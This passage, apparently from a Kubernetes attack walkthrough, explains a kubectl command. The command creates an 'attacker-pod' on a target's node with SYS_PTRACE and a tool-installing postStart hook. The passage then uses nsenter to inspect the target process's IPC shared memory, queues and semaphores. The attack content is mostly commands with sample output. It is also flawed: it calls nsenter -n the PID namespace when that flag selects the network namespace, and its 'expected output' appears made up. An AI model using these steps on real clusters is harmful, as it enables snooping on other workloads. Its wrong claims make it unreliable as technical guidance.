             "postStart": {
              "exec": {
                "command": ["/bin/sh", "-c", "apt-get update && apt-get install -y procps iproute2 net-tools util-linux"]
              }
            }
          }
        }]
      }
    }
    '
    ```

    This is a complex command. Let's break it down:

    *   `kubectl run attacker-pod ...`:  Creates the pod.
    *   `--image=ubuntu:latest ...`: Uses the Ubuntu image.
    *   `--command -- sleep infinity ...`: Keeps the pod running.
    *   `--overrides='...'`:  Allows us to specify more complex pod configuration in JSON.
    *   `"nodeSelector": { ... }`:  Ensures the pod runs on the same node as the target.
    *   `"securityContext": { "capabilities": { "add": ["SYS_PTRACE"] } }`:  Adds the `SYS_PTRACE` capability.
    *    `"containers": [{ "name": "attacker-pod", "lifecycle": { ... } }]`: Specify install script.
    *   `"lifecycle": { "postStart": { ... } }`: The `postStart` hook runs *after* the container starts, but *before* it's considered ready.
    *   `"command": ["/bin/sh", "-c", "apt-get update && apt-get install -y procps iproute2 net-tools util-linux"]`:  The shell command to install `procps, iproute2, net-tools, and util-linux`.

    After creating the pod, wait for it to be ready, and then exec into it:

    ```bash
    kubectl exec -it attacker-pod -- bash
    ```

4.  **Inspect target process IPCs:**

    Now, inside the attacker pod, we can use `nsenter` to enter the target process's PID namespace and inspect its IPC resources. Replace `<target_pid>` with the PID obtained in step 2.

    ```bash
    nsenter -n -t <target_pid> ipcs -a
    ```
    Where <target_pid> is the pid found previously.

    Expected output:

    ```
    ------ Shared Memory Segments --------
    key        shmid      owner      perms      bytes      nattch     status
    0xdeadbeef 65536      target_user 600        8388608    1

    ------ Message Queues --------
    key        msqid      owner      perms      used-bytes   messages
    0xcafe1234 65536      target_user 600        0            0

    ------ Semaphore Arrays --------
    key        semid      owner      perms      nsems
    0xbaadf00d 65536      target_user 600        1
    ```
